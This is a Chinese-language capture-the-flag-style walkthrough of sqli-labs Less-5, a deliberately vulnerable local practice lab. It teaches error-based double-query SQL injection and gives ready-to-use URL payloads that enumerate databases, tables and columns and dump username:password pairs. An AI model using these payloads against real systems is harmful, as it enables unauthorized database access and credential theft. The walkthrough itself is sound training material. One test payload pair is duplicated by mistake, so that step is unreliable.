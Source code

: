 ## 练习开始


首先打开http://127.0.0.1/Less-5/?id=1

![](luffy1.png)

less-5是基于错误的GET单引号变形字符型注入，位置在where之后且后跟limit


核心的语句在于
```

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}

```

和之前的less-1的课程的查询语句一样，不一样的是本次不会直接输出报错内容了


```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
```



测试用的payload

```

' and 1=1 %23 返回正确
' and 1=1 %23 返回错误

```

**%23和--+等价**


针对该题可以用盲注的方式搞定，根据本题标题，双注入 还是用显错式的方式


双查询注入的理解有点麻烦，先讲一下子查询，看一个简单的例子：

Select concat((select database()));

其中的select database()就是一个子查询

双查询注入需要理解mysql内置的四个函数

rand():该用于产生0（包含）到1（不包含）的随机数，

![](luffy4.png)

![](luffy6.png)

floor():floor(x)该函数返回X的最大整数值，但不能大于X

![](luffy5.png)

Count():汇总函数

![](luffy7.png)

concat():链接两个字符串

![](luffy8.png)

group by:根据(by)一定的规则进行分组(Group)




双注入的原理是当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。在双注入的时候count(*), floor(rand()*2), group by 缺一不可，同时注意表中的记录要多于三条

```

SELECT floor(rand()*2);

```

该函数从里向外看。rand() 返回大于0小于1的小数，乘以2之后就成了小于0小于2了。然后对结果进行取证。就只能是0或1了。也就是这个查询的结果不是1，就是0

![](luffy9.png)

```
SELECT CONCAT((SELECT database()), FLOOR(RAND()*2));
```


先看最里面的SELECT database() 这个就返回数据库名，这里就是security了。然后FLOOR(RAND()*2)这个上面说过了。不是0，就是1.然后把这两个的结果进行concat连接，那么结果不是security0就是security1了

![](luffy10.png)


最常见的查询方式是

```
select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from users group by a;
```

![](luffy11.png)

派生表的查询方式

```
select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a)x;
```
![](luffy12.png)




## 手工注入


### 获取当前数据库


```

http://127.0.0.1/Less-5/?id=1'

```
![](luffy13.png)


看到语句出错，因为双注入查询利用的就是**print_r(mysql_error());**回显错误信息

获取当前数据库版本

```
http://127.0.0.1/Less-5/?id=' union select 1, count(*), concat('~',(select version()),'~', floor(rand()*2)) as a from users group by a --+
```

获取当前用户

```
http://127.0.0.1/Less-5/?id=' union select 1, count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from users group by a --+
```

![](luffy15.png)




### 判断当前数据库数量


```
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.schemata),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```
![](luffy16.png)

一共五个数据库

判断第一个数据库
```
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select schema_name from information_schema.schemata limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
```

![](luffy17.png)

通过修改limit之后的第一个参数逐步遍历数据库



### 检查security数据库的表


```

http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.tables where table_schema="security" ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```

![](luffy18.png)

可以知道security有四个表



通过修改limit之后的第一个参数逐步遍历数据库的表

```

http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select table_name from information_schema.tables where table_schema="security" limit 0,1 ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```

![](luffy19.png)


### 检查security数据库中user表的列

判断列的数量

```

http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select count(*) from information_schema.columns where table_schema='security' and table_name="users"),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```

![](luffy20.png)

检查列的内容

```

http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select column_name from information_schema.columns where table_schema='security' and table_name="users" limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```

![](luffy21.png)


### 爆出数据

```

http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select concat_ws(":",username,password) from users limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```

![](luffy12.png)







双注入的原理解释
[链接一](http://www.myhack58.com/Article/html/3/7/2016/73471.htm)
[链接二](https://www.cnblogs.com/dplearning/p/7355595.html)


